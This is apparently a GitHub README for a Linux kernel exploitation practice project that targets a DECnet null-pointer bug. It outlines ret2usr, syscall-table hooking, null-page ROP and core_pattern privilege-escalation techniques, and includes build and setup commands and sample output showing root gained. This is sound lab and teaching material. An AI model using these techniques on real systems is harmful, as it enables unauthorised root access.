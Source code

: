 # DECPwn
Practicing different Linux kernel exploitation techniques with my DECnet vulnerability and null page mapping enabled.
___
## Scenarios
- **Everything disabled**: `qemu-system-x86_64 -append "nosmap nosmep nopti nokaslr"`

  Code execution is redirected to the `output` function in userland, which invokes `commit_creds(prepare_kernel_cred(0))`.

- **Syscall Hooking**

  Swap the *mkdir* system call handler address inside the *sys_call_table* with a function resembling the one in Scenario 1.

- **SMEP and KPTI enabled**: `qemu-system-x86_64 -append "nosmap nokaslr"`

  Code execution is redirected to a stack pivot that sets _$rsp_ to a ROP chain in the null page. 

- **Usermode Helper**

  The `core_pattern` sysctl is overwritten to specify a command to run with elevated privileges when dumping core.

  The program is then interrupted with the SIGABRT signal to trigger the usermode script.

## Build
```bash
apt install libdnet
gcc -o lpe lpe.c -ldnet
gcc -o lpe-core_pattern lpe-core_pattern.c -ldnet
gcc -o lpe-nosmep lpe-nosmep.c -ldnet -no-pie
gcc -o lpe-syscall lpe-syscall.c -ldnet -no-pie
```
## Run
Configure DECnet as root:
```bash
sysctl -w vm.mmap_min_addr="0" # 0x1000
echo -n "1.10" > /proc/sys/net/decnet/node_address
```
Run the exploit as unprivileged user:
```
$ ./lpe
[*] Saved state
[*] Triggering NPD
[*] Returned to userland
[*] UID: 0, got root!
#
```
